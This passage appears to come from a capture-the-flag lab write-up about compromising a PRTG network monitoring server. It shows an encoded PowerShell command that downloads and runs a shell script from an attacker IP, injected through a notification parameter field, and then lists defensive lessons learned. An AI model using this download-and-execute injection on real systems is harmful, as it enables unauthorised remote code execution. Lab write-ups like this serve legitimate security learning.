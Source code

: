 ```text
echo "iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')" | iconv -t UTF-16LE | base64 -w0
```

We get back the following base64 encoded command.

```text
aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADcAOgA1ADUANQA1AC8AcwBoAGUAbABsAC4AcABzADEAJwApAAoA
```

Change the _Paramater_ field to the following string.

```text
bla | powershell -encodedCommand aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADcAOgA1ADUANQA1AC8AcwBoAGUAbABsAC4AcABzADEAJwApAAoA
```

We get a shell!

![](https://miro.medium.com/max/650/1*gb2UBw9zSrltQpbL9Hte5Q.png)

## Lessons Learned <a id="eada"></a>

To get SYSTEM on this box, we exploited three vulnerabilities.

* Insecure configuration of FTP server that allowed anonymous login. This allowed us to get access to the system and find cleartext credentials. The administrator should have disabled anonymous access to the FTP server.
* Cleartext credentials. A backup configuration file of the PRTG network monitoring tool contained cleartext credentials. As we saw in the reddit post, the company had sent its users an email warning them of exposed domain accounts and passwords. The administrator should have complied with the recommendation in the email and deleted the outlined files.
* Weak authentication credentials. Although we found old credentials that no longer were in use, we simply changed the year in the credentials and were able to access the admin account. The administrator should have used a complex password that would be difficult to crack and does not resemble previously used passwords on the application. Especially that those old passwords have been exposed to anyone that has had access to the system.
* Known command injection vulnerability. The PRTG network monitoring tool is not itself vulnerable, however, the default installation comes with a test script that is vulnerable to a command injection. This is a known vulnerability that the administrator should have addressed when it was made public. The quick fix would have been to simply remove the test script form the notifications section.

